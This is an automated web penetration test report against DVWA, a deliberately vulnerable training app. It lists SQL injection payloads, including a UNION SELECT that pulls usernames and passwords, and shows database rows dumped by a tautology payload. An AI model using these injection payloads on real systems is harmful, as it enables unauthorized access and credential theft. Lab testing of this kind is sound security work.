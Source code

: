 # Automated Web Pentest Report

*Scan Date:* 2025-07-17T06:21:54.806316Z  
*Target:* Full Automated Web Pentest

## Test Environment: DVWA

- *Server OS:* Kali GNU/Linux Rolling
- *Python Version:* 3.13.3
- *Scan Date:* 2025-07-17 06:21:54 UTC
- *SQLmap Version:* 1.9.4#stable
- *Target App:* DVWA (Damn Vulnerable Web Application)
- *Version:* 1.10 Development
- *Security Level:* low
- *Web Server:* Apache 2.4
- *Database:* MySQL 8
- *Language:* PHP 8.1
- *Tools Used:* Python requests, BeautifulSoup4, SQLmap, Burp Suite (manual verify)

---
## Methodology & Tools

- Automated Python script loads payloads from file, sends HTTP requests, extracts evidence with BeautifulSoup4.
- Auto-classifies results, exports as PDF/Markdown/JSON.
- SQLmap integration for advanced SQLi detection.
- Ready for CI/CD: can run in GitHub Actions/Jenkins.

---

### SQL Injection Test Cases

| # | Payload | Status | Severity |
|---|---------|--------|----------|
| 1 | ' OR '1'='1 | Success | Critical |
| 2 | ' OR 1=1 # | Success | Critical |
| 3 | ' union select user, password from users# | Success | Critical |
| 4 | addadasddad | Fail | Low |
| 5 | ' Or 3 = 3 # | Success | Critical |

---
#### SQL Injection Evidence Details

*Severity:* `Critical`
##### Payload: `' OR '1'='1`
```
ID: ' OR '1'='1
First name: admin
Surname: admin

ID: ' OR '1'='1
First name: Gordon
Surname: Brown

ID: ' OR '1'='1
First name: Hack
Surname: Me

ID: ' OR '1'='1
```